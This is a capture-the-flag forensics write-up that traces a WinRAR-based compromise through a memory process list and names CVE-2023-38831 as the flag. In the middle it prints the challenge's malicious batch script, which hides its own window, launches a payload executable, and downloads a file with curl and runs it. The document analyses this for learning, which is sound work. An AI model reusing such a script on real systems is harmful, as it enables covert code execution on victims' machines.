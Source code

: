 ```shell
5168    smartscreen.ex  C:\Windows\System32\smartscreen.exe -Embedding
8872    audiodg.exe     C:\Windows\system32\AUDIODG.EXE 0x528
9840    FTK Imager.exe  "C:\Program Files\AccessData\FTK Imager\FTK Imager.exe"
PS C:\Users\arygu\Aryan's files\Forensics\summer\summer\mogambro>
```

From here we see an intresting process ``8436    WinRAR.exe      "C:\Program Files\WinRAR\WinRAR.exe" "C:\Users\MogamBro\Downloads\Follow-these-instructions.zip"`` over here it is where the WinRAR.exe was executed and as the challenge states MogamBro uses old software (BRUHH i use winrar to, its not that bad sure 7zip exists but winrar will always be my goat) hence we can assume its this.

```
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
@echo off
lottery.exe & start chrome -incognito https://pastebin.com/mPvzn0AD & notepad.exe secret.png.enc & curl google.com -o steps.pdf & steps.pdf
exit
```

From here I understood that when bro unzipped the file it would run the malicious file D: when unzipped which is prolly what happened to our bro. Hence searching up ``CVE vulnerability for winrar to run malicious code`` we get ``CVE-2023-38831`` which should be our format


## Flag

> BITSCTF{CVE-2023-38831}
